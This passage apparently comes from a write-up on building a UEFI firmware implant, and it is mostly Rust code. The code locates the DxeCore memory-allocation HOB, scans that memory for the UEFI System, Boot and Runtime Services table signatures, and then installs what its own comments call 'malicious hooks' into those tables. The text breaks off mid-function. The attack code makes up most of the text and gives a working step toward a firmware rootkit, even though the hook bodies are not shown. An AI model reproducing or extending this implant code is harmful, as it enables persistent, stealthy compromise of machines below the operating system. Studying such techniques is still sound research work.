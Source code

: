 ```rs
            if (*alloc_hob).alloc_header.name == HOB_MEMORY_ALLOC_MODULE_GUID {
                if (*alloc_hob).module_name == DXE_CORE_GUID {
                    info!("found DxeCore HOB at {:p}", hob_list);
                    return Ok(alloc_hob);
                }
            }
        }
        // Advance to next HOB in the list.
        hob_list = hob_list.byte_add((*hob_list).hob_length.into());
    }
    Err(EfiStatus::NotFound)
}
```

We are cheating in this case since we are looking for memory allocation HOB
belonging to the MdePkg DxeCore but a generic implant can scan all regions or
intelligently figure out the GUID of the suspended DXE Foundation. Once we have
the memory region containing the service tables, we can scan for the table
signatures.

```rs
unsafe fn find_and_hook_services(svc: PeiServicesPtr) -> EfiResult<()> {
    // DxeCore is mapped into the same address space so we can scan the HOBs
    // directly to find the boot, runtime, and system tables.

    // The DXE core has an associated EFI_HOB_MEMORY_ALLOCATION_MODULE HOB
    // which describes the loaded PE32's memory range.
    let hob = &*find_dxe_core_hob(svc)?;
    let lo = hob.alloc_header.memory_base_address as *const u64;
    let hi = lo.byte_add(hob.alloc_header.memory_length as usize);

    // Attempt to locate the tables within the HOB range.
    let (st, bs, rt) = find_services(lo, hi)?;

    debug!("verifying table contents are as expected");
    // gRT is initially filled out with placeholder functions.
    debug!("gRT->GetTime       = {:p}", rt.get_time);
    debug!("gRT->SetTime       = {:p}", rt.set_time);
    debug!("gRT->SetWakeupTime = {:p}", rt.set_wakeup_time);
    assert!(rt.get_time == rt.set_wakeup_time && rt.get_time != rt.set_time);
    info!("table contents have been successfully validated");

    // Install the malicious hooks into the tables.
    hooks::install_dxe_hooks(st, bs, rt)
}

unsafe fn find_services(lo: *const u64, hi: *const u64)
        -> EfiResult<(&'static mut SystemTable,
                      &'static mut BootServices,
                      &'static mut RuntimeServices)> {
    // The service tables include a signature which we can search for.
    // The signatures will be aligned because of struct allocation.
    const EFI_BOOT_SERVICES_SIGNATURE: u64 = 0x56524553544f4f42;
    const EFI_RUNTIME_SERVICES_SIGNATURE: u64 = 0x56524553544e5552;
    const EFI_SYSTEM_TABLE_SIGNATURE: u64 = 0x5453595320494249;

    // Scan the HOB for the table signatures.
    debug!("scanning address range {:p}-{:p}", lo, hi);

    // EFI_SYSTEM_TABLE has its signature lying around for whatever reason
    // so we have to validate the matching object.
    let st = locate_table(lo, hi, EFI_SYSTEM_TABLE_SIGNATURE)?
        .cast::<SystemTable>().cast_mut().as_mut().unwrap();
    let system_table = if st.runtime_services as u64 > 0xffffffff  {
```